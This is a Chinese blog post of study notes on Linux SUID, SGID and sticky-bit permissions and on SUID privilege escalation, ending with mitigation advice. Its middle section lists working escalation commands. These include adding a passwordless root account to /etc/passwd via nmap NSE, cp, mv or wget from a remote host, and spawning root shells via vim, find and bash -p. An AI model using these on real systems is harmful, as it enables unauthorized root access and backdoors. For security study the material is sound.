## 0x00 前言

在p牛博客看到有关suid提权的[文章](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)，所以打算对linux suid提权这块学习记录下，由于是首次接触suid的概念，所以文章前面定义部分记录的比较详细（啰嗦），以便后续学习。

## 0x01 什么是SUID

### 1.1 SUID

SUID全称是Set owner User ID up on execution，suid是赋予二进制文件一个权限，它允许程序执行者在执行时具有该程序的拥有者(owner)的权限，对于SUID权限的文件基本有这样的限制与功能：

- **SUID权限仅对二进制程序有效**
- **执行者对于该程序需要具有x的可执行权限**
- **本权限仅在执行该程序的过程中有效（run-time）**
- **执行者将具有该程序拥有者的（owner）权限**

这里举个栗子说明下，linux中每个用户的账号密码都存储在`/etc/shadow`文件中，该文件的权限为`-rw-r-----`，普通用户无法直接修改，但每个用户都可以通过`passwd`命令来修改自己的密码，为什么/etc/shadow只允许root用户读取修改的，普通用户却能够修改这个文件内的密码呢？这就是SUID的作用。

`passwd`命令对应的路径是`/usr/bin/passwd`，我们可以看到它的文件权限为`-rwsr-xr-x`，这里`passwd`设置了SUID权限，我们来看下普通用户tester如何通过SUID权限完成修改密码操作的：

1. tester 用户对于 /usr/bin/passwd 这个程序具有执行权限，因此可以执行 passwd 程序
2. passwd 程序的所有者为 root
3. tester 用户执行 passwd 程序的过程中会暂时获得 root 权限
4. 因此 tester 用户在执行 passwd 程序的过程中可以修改 /etc/shadow 文件

普通用户直接使用`cat`查看`/etc/shadow`文件是被禁止的，这里用一张示意图来表示两者区别



另外需要注意的是，SUID仅可用于二进制程序上，**但不能够用在shell脚本上面**。这是因为shell脚本是由多个二进制执行文件进行调用执行而已，所以是否有SUID权限还是看调用的二进制执行文件，而不是shell脚本本身。当然，**SUID对于目录也是无效的**。

在搜索学习SUID时也了解到了SGID、SBIT的定义，这里也顺带提下

### 1.2 SGID

与SUID不同的是，SGID可以针对文件或目录来设置。如果是对文件来说，SGID有如下的功能：

- SGID对二进制程序有用
- 程序执行者对于该程序来说，需具备x的权限
- 执行者在执行的过程中将会获得改程序用户组的支持

举个栗子，使用`/usr/bin/locate`这个程序可以去查找`/var/lib/mlocate/mlocate.db`这个文件的内容，查看对应文件权限

```shell
lrwxrwxrwx 1 root root 24 Nov 17  2020 /usr/bin/locate -> /etc/alternatives/locate
lrwxrwxrwx 1 root root 16 Nov 17  2020 /etc/alternatives/locate -> /usr/bin/mlocate
# locate是软链接指向mlocate，所以修改软连接locate的sgid权限也就是修改mlocate
-rwxr-sr-x 1 root mlocate 39608 Nov 15  2018 /usr/bin/mlocate
-rw-r----- 1 root mlocate 1292585 Jun 26 14:25 /var/lib/mlocate/mlocate.db
```

如果我使用普通用户tester执行locate时，tester将会取得mlocate组的支持，因此就可以去读取mlocate.db的内容了。执行过程示意图如下



另外，SGID对目录也支持，当用户对某一目录有写和执行权限时，该用户就可以在该目录下建立文件，如果该目录用 SGID 修饰，则该用户在这个目录下建立的文件都是属于这个目录所属的组。如下图示例，sgidtest目录属于root组，且赋予了SGID权限，poom用户在该目录下创建文件将为root属组。



### 1.3 SBIT

其实 SBIT 与 SUID 和 SGID 的关系并不大。SBIT 是 the restricted deletion flag or sticky bit 的简称。SBIT 目前只对目录有效，用来阻止非文件的所有者删除文件。比较常见的例子就是 /tmp 目录：



权限信息中最后一位 t 表明该目录被设置了 SBIT 权限。SBIT 对目录的作用是：当用户在该目录下创建新文件或目录时，仅有自己和 root 才有权力删除。

### 1.4 如何设置SUID、SGID、SBIT权限

SUID、SGID、SBIT权限对应的数字为`SUID->4，SGID->2，SBIT->1`

通过数字法设置

```
chmod 4755 filename
```

通过符号法设置

```
chmod u+s filename
chmod g+s filename 
chmod o+s filename
```

若权限为大写S或T，则说明user/group/others本身就没有执行权限。

## 0x02 关于SUID提权

先介绍下linux进程在运行时有3个UID:

- Real UID 执行该进程的用户实际的UID
- Effective UID 程序实际操作时生效的UID（比如写入文件时，系统会检查这个UID是否有权限）
- Saved UID 在高权限用户降权后，保留的其原本UID

在设置了SUID权限的程序在其运行时，进程的Effective UID将为程序的拥有者。例如前面说的`/user/bin/passwd`命令的权限为`-rwsr-xr-x`，程序的拥有者为root（uid=0），普通用户在执行`passwd`命令时Effective UID就为0，所以可以完成更改密码的操作。

我们知道nmap需要进行UDP或TCP SYN扫描时需要用到root权限，所以很多管理员会给nmap加上SUID权限，这样普通用户就可以随便使用nmap了。在nmap 5.20版本以前存在interactive交互模式，当nmap设置了SUID权限时，我们可以进入交互模式输入`!sh`提权。

所以**拥有SUID的程序存在命令注入漏洞或其本身存在执行命令的功能，且这个程序所有者的uid为0或其他super user**，那么就有SUID提权的风险。

**如何查找具有SUID权限的文件**

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

也可通过`sudo -l`列出当前用户可sudo执行的命令

## 0x03 常用于SUID提权的命令

下面介绍几种命令，如果这些命令具有SUID权限，将有本地提权的风险。

### 3.1 nmap

#### 3.1.1 nmap 2.02-5.21版本

namp在低版本具有交互模式，可利用交互模式提权

```
nmap --interactive
nmap> !sh
```

另外Metasploit也有nmap提权的模块：`exploit/unix/local/setuid_nmap`

#### 3.1.2 nmap高版本

namp在高版本取消了交互模式，可编写nmap的nse脚本，修改`/etc/passwd`来新增一个用户root2来达到提权的目的。

```lua
local file = io.open("/etc/passwd", "a")
file:write("root2::0:0::/root:/bin/bash\n")
file:close()
```



若namp可直接sudo执行，则可直接使用nse脚本调用`os.execute`执行命令

```shell
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

### 3.2 find

```shell
touch test
find test -exec whoami \;
```



### 3.3 vi/vim

进入vim模式执行以下命令

```shell
:set shell=/bin/sh
:shell
```



若有sudo权限则可执行`sudo vim -c '!sh'`直接提权

### 3.4 bash

```
bash -p
```



### 3.5 cp

跟高版本nmap提权方法类似，覆盖 `/etc/shadow` 或 `/etc/passwd`

```shell
$ cat /etc/passwd >passwd
$ echo 'root3::0:0::/root:/bin/bash' >>passwd
$ cp passwd /etc/passwd  
$ su root3 
```



### 3.6 mv

同cp命令的步骤，覆盖 `/etc/shadow` 或 `/etc/passwd`

### 3.7 nano

```shell
nano filename
```





### 3.8 wget

```shell
wget http://192.168.88.88/passwd -O /etc/passwd
```

### 3.9 其他测试未提权成功的命令

网上见到有师傅整理的suid提权命令也包括下面几种，但我在Ubuntu 18和kali 2020中测试并不能提权成功，返回的只是当前用户的shell，这里先记录下

#### 3.9.1 less

```shell
less /etc/passwd
!/bin/sh
```

#### 3.9.2 more  

```shell
more /home/pelle/myfile
!/bin/bash
```

#### 3.9.3 awk

```shell
awk 'BEGIN {system("/bin/sh")}'
```

#### 3.9.4 man

```shell
man passwd
!/bin/bash
```

####  3.9.5 python/perl/ruby/lua/php/etc

python

```shell
python -c "import os;os.system('/bin/bash')"
```

perl

```perl
exec "/bin/bash";
```

## 0x04 如何缓解

管理员应仔细审查所有SUID二进制文件，看看到底是否真的需要使用提权后运行。在这个审查过程中，**应该特别关注能够在系统上执行代码或写入数据的那些应用程序**。

对于类似nmap和ping的程序，只需要网络相关的特权即可，Linux 2.2以后增加了capabilities的概念，我们可以用到capabilities这东西做权限分离。

查看kali下ping命令的capabilities

```shell
$ getcap /usr/bin/ping
/usr/bin/ping cap_net_raw=ep
```

这就是为什么`ping`命令未设置suid权限，却仍然可以以普通用户身份运行的原因，同样我们也可以给nmap命令增加类似的capabilities，普通用户就可以执行TCP SYN扫描啦

```shell
sudo setcap cap_net_raw,cap_net_admin,cap_net_bind_service+eip /usr/bin/nmap
nmap --privileged -sU 127.0.0.1
```



## 参考

[谈一谈Linux与suid提权](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)

[Linux 特殊权限 SUID,SGID,SBIT](https://www.cnblogs.com/sparkdev/p/9651622.html)

[Linux SUID 提权](https://jlkl.github.io/2020/01/27/Web_15/)

《鸟哥的linux私房菜（第四版）--6.4.3章》
